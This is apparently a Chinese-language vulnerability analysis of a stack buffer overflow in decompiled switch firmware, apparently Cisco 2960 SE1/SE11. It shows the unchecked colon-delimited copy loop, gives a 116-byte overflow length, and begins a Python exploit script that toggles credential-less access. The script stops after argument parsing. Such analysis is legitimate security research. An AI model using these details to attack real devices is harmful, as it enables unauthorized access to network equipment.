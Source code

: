 ```c
  if ( v11 != 1 )
  {
    result = sub_4EAA0(v1);
    v1[333] = 0;
    if ( !v1[334] )
      return result;
    return sub_4ECE0(v1);
  }
  v13 = 0;
  for ( i = *v12; i != ':'; i = *v12 )
  {
    *((_BYTE *)&back_chain[38] + v13++) = i;
    ++v12;
  }
  *((_BYTE *)&back_chain[38] + v13) = 0;
  v15 = 0;
  v16 = v12 + 1;
  for ( j = *v16; j != ':'; j = *v16 )
  {
    v22[v15++] = j;
    ++v16;
  }
  v22[v15] = 0;
  v18 = sub_16E97A8(v16 + 1, ":");
  sub_4E7D8(v1, v22);
  v19 = sub_16E8F94(v18);
  result = sub_4E79C(v1, v19);
  if ( v1[0x14E] )
    result = sub_4ECE0(v1);
  return result;
}
```

发生溢出的原因是，由两个for循环获得::中间的内容，而没有检查长度，所以导致了超长的输入可能。  
所以在for循环赋值的时候，就发生了溢出，而不是在那个类似snprintf的结构里。

```c
for ( j = *v16; j != ':'; j = *v16 )
{
    v22[v15++] = j;
    ++v16;
}
```

溢出长度为0x70+4=0x74=116。

exp
---

官方exp在github上有很多，针对的是2960的SE1和SE11两个版本。

```python
#!/usr/bin/python

import socket
import sys
from time import sleep

set_credless = True

if len(sys.argv) < 3:
    print sys.argv[0] + ' [host] --set/--unset'
    sys.exit()
elif sys.argv[2] == '--unset':
    set_credless = False
elif sys.argv[2] == '--set':
```